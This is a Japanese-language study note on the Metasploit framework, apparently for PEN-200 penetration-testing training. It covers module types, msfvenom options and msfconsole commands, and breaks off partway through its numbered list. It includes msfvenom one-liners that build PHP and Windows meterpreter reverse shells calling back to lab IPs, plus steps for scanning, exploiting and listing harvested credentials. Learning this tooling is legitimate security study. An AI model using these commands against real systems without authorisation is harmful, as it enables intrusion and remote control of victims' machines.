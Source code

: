 # Metasploit
[公式ドキュメント](https://docs.metasploit.com)

## 概要
Exploitにつかえるツールがたくさん入ってるOSSのツール。Gitで開発に参加もできる。

Metasploitには以下4つのモジュールがある。攻撃するためのタイプではない。データ収集などができる。
- **Auxiliary** => 
- **Exploit** => ターゲットに侵入するためのExploitを実行できる。
- **Payloads** => RCE実行時のペイロード。ユーザ作成やシェルをつないだりといったことができる。
- **Post** => 初期侵入後にセッションからデータを収集・列挙する系のタスク

## Cheat Sheet
Metasploitを起動する。
```
msfconsole
```

## Msfvenom
[Msfvenomのドキュメント](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)

### CheatSheet

-p => カスタムペイロードを使う
-p --payload-options => ペイロードのオプションを表示
-e => エンコードを表示
-a => バイナリが実行されるアーキテクチャを選択
-b => バイナリに使わないバイナリ文字列を選択する。"\x80"とかをいれてNULL文字を含まないようにしたりとか。
-f => アウトプットのフォーマットを選択する。-f cにするとC言語のバイナリ文字列で出せたりする。
--list formats => formatオプションの使用できるオプション一覧を表示する。他のオプションもlist表示できる。

### コマンド集
phpのリバースシェルを生成する
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.45.157 LPORT=4444 -f raw > shell.php
```

1. windows用のリバースシェルバイナリを生成する。
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe
```

2. Metasploitフレームワークに搭載されているDBサービスを開始する。Metasploitの実行において必須ではないが、ターゲットホストに関する情報の保存等で使える。  
MSFはDBとしてPostgreSQLを使う。
```
sudo msfdb init
```

#### msfconsole

1. msfconsoleによってMetasploitのCLIを起動する。
```
sudo msfconsole
```

2. 使用可能なすべてのコマンドのリストを取得する。
```
help
```

3. 以前に作成したすべてのワークスペースを一覧で表示する。(pythonでいうvenvの仮想環境みたいなもの？)
```
workspace
```

4. 新しくworkspaceを作成する。
```
workspace -a pen200
```

5. msfconsoleのセッション内でnmapをターゲットに対して実行し、その結果を現在のworkspaceで保存する。  
nmapのコマンドは通常と同じ。
```
db_nmap -A 192.168.50.202
```

6. msfconsoleのセッションにて、dbとの接続をチェックする。
```
db_status
```

7. これまでに検出されたすべてのホストのリスをと取得する。これも、msfconsoleのセッションにてdbを立ち上げているからできる。
```
hosts
```

8. ポートスキャンで検出されたサービスを表示する。
```
services
```

9. smb用のサポートモジュールを検索する
```
search type:auxiliary smb
```

10. use しているエクスプロイトモジュールで設定可能なパラメータを表示する。
```
show options
```

11. パラメータの値を設定する。ここでは、RHOSTSにIPをセット。
```
set RHOSTS 127.0.0.1
```

12. 一度設定したパラメータを初期化する。
```
unset RHOSTS
```

13. 既に検索したhostsに対してスキャンをかけ、445が空いているホストを表示し、それをRHOSTSにセットする。
```
services -p 445 --rhosts
```

14. setしているエクスプロイトを実行する
```
run
```

15. スキャンしたターゲットにおいて、既知の脆弱性が存在するかをチェックする。
```
vulns
```

16. これまでに収集したすべての有効な認証情報を表示する。
```
creds
```

17. エクスプロイトをセットした後に、そのエクスプロイトが何をするものなのか、一般的な情報を取得する。  
ここで、**Module reliability:**という項目があり、エクスプロイトによってはrepeatableなものと**1度しか使用できないもの**があるので注意が必要。  
さらに、**check support**の項目がYesになっている場合、**check**コマンドで、実際にエクスプロイトを走らせる前に、ターゲットに対してエクスプロイトが正しく動作するかをチェックすることもできる。
```
info
```

18. シェルを取った後に、Ctrl+Zでセッションをバックグラウンドにする。その後、msfconsole内でsessions -lを実行してsessionIdを特定。  
session -i 2のようにしてsessionIdを指定して再度セッションに戻る。

19. 現在useしているエクスプロイトで使えるpayloadを一覧表示する。 ファイル名に/がついているとステージングのペイロード。  
非ステージングpayloadの方がNWトラフィックが発生しづらい。つまり_の方のファイル。
```
